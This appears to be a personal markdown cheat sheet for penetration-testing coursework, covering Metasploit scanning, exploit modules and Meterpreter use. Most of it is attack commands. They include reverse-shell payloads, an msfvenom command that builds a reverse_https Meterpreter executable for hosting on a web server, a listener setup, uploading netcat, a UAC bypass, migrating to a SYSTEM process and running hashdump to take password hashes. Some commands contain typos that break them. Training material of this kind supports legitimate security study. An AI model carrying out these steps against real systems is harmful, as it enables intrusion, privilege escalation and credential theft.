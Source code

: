 # Metasploit Pre Exploitation
- options:
  - global variables: `set -> setg` for THREADS and/or RHOSTS, etc...
## Auxiliary Modules
- `show auxiliary`
### SNMP Auxiliary Module
- `search snmp`
  - example: `auxiliary/scanner/snmp/snmp_enum`
    - `use auxiliary/scanner/snmp/snmp_enum`
    - `info`
    - `show options`
    - `set ...`
    - `run`
### SMB Auxiliary Module
- `use auxiliary/scanner/smb/smb_version`

## Database Services
> Commands within metasploit
- `hosts`
- `db_nmap 192.168.31.200-254 --top-ports 20`
- `services -p 443`

## Exploit Modules
- `search pop3`
- `use ...`
- `show options`
- `set PAYLOAD windows/... (TAB to see more)`
- `set PAYLOAD windows/shell_reverse_tcp`
- `exploit`

## Payloads
> Staged and Non staged shell code.  
Mterpreter - staged multi-function payload that cn be extended in runtime.  

- `set PAYLOAD windows/meterpreter/reverce_tcp`
- `exploit`
- `meterpreter > help`
- commands
  - `sysinfo`, `getuid`, `search -f *pass*.txt`
  - `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`
  - `download c:\\windows\\system32\calc.exe /tmp/calc.exe`
  - `shell`
  - `exit -y`

## Additional payloads
- `use windows/meterpreter/reverse_https`
> Tunnel communication over HTTPS usil SSL, Inject he meterpreter server DLL via Reflective Dll Ijection payload (staged).
> Helps us avoid 'deep packet inspection' services.
- `use windows/meterpreter/reverse_tcp_allports`
> Try to connect back to the attacker machine on all possible ports (slowly)

## Binary payloads
- `msfvenom -l`
### The creation of the payload
- `msfvenom -p windows/meterpreter/reverse_https LHOST=kali-ip LPORT=443 -f exe --platform windows -a x86 > /var/www/html/reverse_met_https.exe`
### The creation of the matching listener
> The Multihandler Module (via msfconsole)
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
show options
set LHOST 10.11.0.179
set LPORT 443
exploit
```
## Porting Exploits to MSF

# Metasploit Post Exploitation
```
msfconsole ...
set ... 
use ...
exploit
```
```
# within a meterpreter session
getuid
getprivs (checking for UAC)

# bypassing UAC
background
use exploit/windows/local/bypassuac
show options (we need session ID)
# list sessions
sessions -l
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST xxx
set LPORT 8888
clear
# executing the exploit on session #1
run
# a new session will be created which have bypassed UAC restrictions
# check by executing getprivs
getprivs
hashdump (still fails)
# we need system privleges -> migrate our current meterpreter process
ps
# look for running process with SYSTEM privleges
migrate %the process ID% (from the list)
getuid
hashdump (it will work now)
# we'll now background this session
background
# list our sessions
sessions -l
```
